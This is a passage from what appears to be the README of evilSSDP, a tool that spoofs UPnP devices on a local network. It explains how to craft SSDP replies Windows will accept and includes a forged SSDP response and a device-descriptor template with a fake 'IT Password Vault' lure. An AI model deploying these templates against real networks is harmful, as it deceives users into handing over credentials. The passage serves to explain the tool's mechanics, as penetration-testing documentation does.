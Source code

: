 To interact with this host, we need to capture both the source port and the 'ST' (Service Type) header. The response MUST be sent to the correct source port and SHOULD include the correct ST header. Note that it is not just the Windows OS looking for devices - scanning a typical network will show a large amount of requests from applications inside the OS (like Spotify), mobile phones, and other media devices. Windows will only play ball if you reply with the correct ST, other sources are more lenient.

evilSSDP will extract the requested ST and send a reponse like the following:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 26 Jun 2018 01:06:26 GMT
EXT: 
LOCATION: http://192.168.1.131:8888/ssdp/device-desc.xml
SERVER: Linux/3.10.96+, UPnP/1.0, eSSDP/0.1
ST: upnp:rootdevice
USN: uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563:upnp-rootdevice
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```

The location IP, ST, and date are constructed dynamically. This tells the requestor where to find more information about our device. Here, we are forcing Windows (and other requestors) to access our 'Device Descriptor' xml file and parse it. The USN is just a random string and needs only to be unique and formatted properly.

evilSSDP will pull the 'device.xml' file from the chosen templates folder and dynamically plug in some variables such as your IP address. This 'Device Descriptor' file is where you can customize some juicy-sounding friendly names and descriptions. It looks like this:

```
<root>
    <specVersion>
        <major>1</major>
        <minor>0</minor>
    </specVersion>
    <device>
        <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
        <friendlyName>IT Password Vault</friendlyName>
        <manufacturer>PasSecure</manufacturer>
        <manufacturerURL>http://passecure.com</manufacturerURL>
        <modelDescription>Corporate Password Repository</modelDescription>
        <modelName>Core</modelName>
        <modelNumber>1337</modelNumber>
        <modelURL>http://passsecure.com/1337</modelURL>
        <serialNumber>1337</serialNumber>
        <UDN>uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563</UDN>
        <serviceList>
            <service>
                <URLBase>http://$localIp:$localPort</URLBase>
                <serviceType>urn:ecorp.co:service:ePNP:1</serviceType>
                <serviceId>urn:epnp.ecorp.co:serviceId:ePNP</serviceId>
                <controlURL>/epnp</controlURL>
                <eventSubURL/>
                <SCPDURL>/service-desc.xml</SCPDURL>
            </service>
        </serviceList>
        <presentationURL>http://$localIp:$localPort/present.html</presentationURL>
        </device>
    </root>

```
